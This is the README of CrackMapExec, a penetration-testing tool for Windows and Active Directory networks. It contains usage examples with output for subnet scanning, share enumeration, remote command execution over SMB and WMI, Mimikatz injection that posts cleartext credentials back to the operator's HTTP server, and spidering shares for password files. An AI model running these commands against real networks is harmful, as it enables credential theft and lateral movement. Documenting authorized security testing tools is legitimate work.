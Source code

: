 # CrackMapExec
A swiss army knife for pentesting Windows/Active Directory environments

Powered by [Impacket](https://github.com/CoreSecurity/impacket)

This project was inspired by/based off of:
- @agsolino's [wmiexec.py](https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py), [wmiquery.py](https://github.com/CoreSecurity/impacket/blob/master/examples/wmiquery.py), [smbexec.py](https://github.com/CoreSecurity/impacket/blob/master/examples/smbexec.py), [samrdump.py](https://github.com/CoreSecurity/impacket/blob/master/examples/samrdump.py), [secretsdump.py](https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py) and [atexec.py](https://github.com/CoreSecurity/impacket/blob/master/examples/atexec.py) scripts (beyond awesome)
- @ShawnDEvans's [smbmap](https://github.com/ShawnDEvans/smbmap)
- @gojhonny's [CredCrack](https://github.com/gojhonny/CredCrack)
- @pentestgeek's [smbexec](https://github.com/pentestgeek/smbexec)

Additionally some code was stolen from @T-S-A's [smbspider](https://github.com/T-S-A/smbspider) script

This repo also includes [Invoke-Mimikatz.ps1](https://github.com/mattifestation/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) and [Invoke-NinjaCopy.ps1](https://github.com/mattifestation/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) scripts from @mattifestation's [PowerSploit](https://github.com/mattifestation/PowerSploit) project 

#Description

CrackMapExec is your one-stop-shop for pentesting Windows/Active Directory environments!

From enumerating logged on users and spidering SMB shares to executing psexec style attacks and auto-injecting Mimikatz into memory using Powershell!

The biggest improvements over the above tools are:
- Pure Python script, no external tools required
- Fully concurrent threading
- Uses **ONLY** native WinAPI calls for discovering sessions, users, dumping SAM hashes etc...
- Opsec safe (no binaries are uploaded to dump clear-text credentials)

Requires the impacket, gevent and netaddr Python libraries

#Installation on Kali Linux

Run ```pip install --upgrade -r requirements.txt```

#Usage examples

The most basic usage: scans the subnet using 100 concurrent threads:
```
#~ python crackmapexec.py -t 100 172.16.206.0/24
[+] 172.16.206.132:445 is running Windows 6.1 Build 7601 (name:DRUGCOMPANY-PC) (domain:DRUGCOMPANY-PC)
[+] 172.16.206.133:445 is running Windows 6.3 Build 9600 (name:DRUGOUTCOVE-PC) (domain:DRUGOUTCOVE-PC)
[+] 172.16.206.130:445 is running Windows 10.0 Build 10240 (name:DESKTOP-QDVNP6B) (domain:DESKTOP-QDVNP6B)
```

Let's enumerate available shares:
```
#~  python crackmapexec.py -t 100 172.16.206.0/24 -u username -p password --shares
[+] 172.16.206.132:445 is running Windows 6.1 Build 7601 (name:DRUGCOMPANY-PC) (domain:DRUGCOMPANY-PC)
[+] 172.16.206.133:445 is running Windows 6.3 Build 9600 (name:DRUGOUTCOVE-PC) (domain:DRUGOUTCOVE-PC)
[+] 172.16.206.130:445 is running Windows 10.0 Build 10240 (name:DESKTOP-QDVNP6B) (domain:DESKTOP-QDVNP6B)
[+] 172.16.206.130:445 DESKTOP-QDVNP6B Available shares:
	SHARE			Permissions
	-----			-----------
	ADMIN$			READ, WRITE
	IPC$			NO ACCESS
	C$			    READ, WRITE
[+] 172.16.206.133:445 DRUGOUTCOVE-PC Available shares:
	SHARE			Permissions
	-----			-----------
	Users			READ, WRITE
	ADMIN$			READ, WRITE
	IPC$			NO ACCESS
	C$			    READ, WRITE
[+] 172.16.206.132:445 DRUGCOMPANY-PC Available shares:
	SHARE			Permissions
	-----			-----------
	Users			READ, WRITE
	ADMIN$			READ, WRITE
	IPC$			NO ACCESS
	C$			    READ, WRITE
```

Let's execute some commands on all systems concurrently:

```
#~ python crackmapexec.py -t 100 172.16.206.0/24 -u username -p password -x whoami
[+] 172.16.206.132:445 is running Windows 6.1 Build 7601 (name:DRUGCOMPANY-PC) (domain:DRUGCOMPANY-PC)
[+] 172.16.206.130:445 is running Windows 10.0 Build 10240 (name:DESKTOP-QDVNP6B) (domain:DESKTOP-QDVNP6B)
[+] 172.16.206.132:445 DRUGCOMPANY-PC Executed specified command via SMBEXEC
nt authority\system

[+] 172.16.206.130:445 DESKTOP-QDVNP6B Executed specified command via SMBEXEC
nt authority\system

[+] 172.16.206.133:445 is running Windows 6.3 Build 9600 (name:DRUGOUTCOVE-PC) (domain:DRUGOUTCOVE-PC)
[+] 172.16.206.133:445 DRUGOUTCOVE-PC Executed specified command via SMBEXEC
nt authority\system
```

Same as above only using WMI as the code execution method:
```
#~ python crackmapexec.py -t 100 172.16.206.0/24 -u username -p password --execm wmi -x whoami
[+] 172.16.206.132:445 is running Windows 6.1 Build 7601 (name:DRUGCOMPANY-PC) (domain:DRUGCOMPANY-PC)
[+] 172.16.206.133:445 is running Windows 6.3 Build 9600 (name:DRUGOUTCOVE-PC) (domain:DRUGOUTCOVE-PC)
[+] 172.16.206.130:445 is running Windows 10.0 Build 10240 (name:DESKTOP-QDVNP6B) (domain:DESKTOP-QDVNP6B)
[+] 172.16.206.132:445 DRUGCOMPANY-PC Executed specified command via WMI
drugcompany-pc\administrator

[+] 172.16.206.133:445 DRUGOUTCOVE-PC Executed specified command via WMI
drugoutcove-pc\administrator

[+] 172.16.206.130:445 DESKTOP-QDVNP6B Executed specified command via WMI
desktop-qdvnp6b\drugdealer
```

Use an IEX cradle to run ```Invoke-Mimikatz.ps1``` on all systems concurrently (PS script gets hosted automatically with an HTTP server),
Mimikatz's output then gets POST'ed back to our HTTP server, saved to a log file and parsed for clear-text credentials:
```
#~ python crackmapexec.py -t 100 172.16.206.0/24 -u username -p password --mimikatz
[*] Press CTRL-C at any time to exit
[*] Note: This might take some time on large networks! Go grab a redbull!
[+] 172.16.206.132:445 is running Windows 6.1 Build 7601 (name:DRUGCOMPANY-PC) (domain:DRUGCOMPANY-PC)
[+] 172.16.206.133:445 is running Windows 6.3 Build 9600 (name:DRUGOUTCOVE-PC) (domain:DRUGOUTCOVE-PC)
[+] 172.16.206.130:445 is running Windows 10.0 Build 10240 (name:DESKTOP-QDVNP6B) (domain:DESKTOP-QDVNP6B)
172.16.206.130 - - [19/Aug/2015 18:57:40] "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
172.16.206.133 - - [19/Aug/2015 18:57:40] "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
172.16.206.132 - - [19/Aug/2015 18:57:41] "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
172.16.206.133 - - [19/Aug/2015 18:57:45] "POST / HTTP/1.1" 200 -
[+] 172.16.206.133 Found plain text creds! Domain: drugoutcove-pc Username: drugdealer Password: IloveMETH!@$
[*] 172.16.206.133 Saved POST data to Mimikatz-172.16.206.133-2015-08-19_18:57:45.log
172.16.206.130 - - [19/Aug/2015 18:57:47] "POST / HTTP/1.1" 200 -
[*] 172.16.206.130 Saved POST data to Mimikatz-172.16.206.130-2015-08-19_18:57:47.log
172.16.206.132 - - [19/Aug/2015 18:57:48] "POST / HTTP/1.1" 200 -
[+] 172.16.206.132 Found plain text creds! Domain: drugcompany-PC Username: drugcompany Password: IloveWEED!@#
[+] 172.16.206.132 Found plain text creds! Domain: DRUGCOMPANY-PC Username: drugdealer Password: D0ntDoDrugsKIDS!@#
[*] 172.16.206.132 Saved POST data to Mimikatz-172.16.206.132-2015-08-19_18:57:48.log
``` 

Lets Spider the C$ share starting from the ```Users``` folder for the pattern ```password``` in all files and directories (concurrently):
```
#~ python crackmapexec.py -t 150 172.16.206.0/24 -u username -p password --spider Users --depth 10 --pattern password
[+] 172.16.206.132:445 is running Windows 6.1 Build 7601 (name:DRUGCOMPANY-PC) (domain:DRUGCOMPANY-PC)
[+] 172.16.206.133:445 is running Windows 6.3 Build 9600 (name:DRUGOUTCOVE-PC) (domain:DRUGOUTCOVE-PC)
[+] 172.16.206.132:445 DRUGCOMPANY-PC Started spidering
[+] 172.16.206.130:445 is running Windows 10.0 Build 10240 (name:DESKTOP-QDVNP6B) (domain:DESKTOP-QDVNP6B)
[+] 172.16.206.133:445 DRUGOUTCOVE-PC Started spidering
[+] 172.16.206.130:445 DESKTOP-QDVNP6B Started spidering
//172.16.206.132/Users/drugcompany/AppData/Roaming/Microsoft/Windows/Recent/supersecrepasswords.lnk
//172.16.206.132/Users/drugcompany/AppData/Roaming/Microsoft/Windows/Recent/supersecretpasswords.lnk
//172.16.206.132/Users/drugcompany/Desktop/supersecretpasswords.txt
[+] 172.16.206.132:445 DRUGCOMPANY-PC Done spidering (Completed in 7.0349509716)
//172.16.206.133/Users/drugdealerboss/Documents/omgallthepasswords.txt
[+] 172.16.206.133:445 DRUGOUTCOVE-PC Done spidering (Completed in 16.2127850056)
//172.16.206.130/Users/drugdealer/AppData/Roaming/Microsoft/Windows/Recent/superpasswords.txt.lnk
//172.16.206.130/Users/drugdealer/Desktop/superpasswords.txt.txt
[+] 172.16.206.130:445 DESKTOP-QDVNP6B Done spidering (Completed in 38.6000130177)
```

For all available options, just run: ```python crackmapexec.py --help```
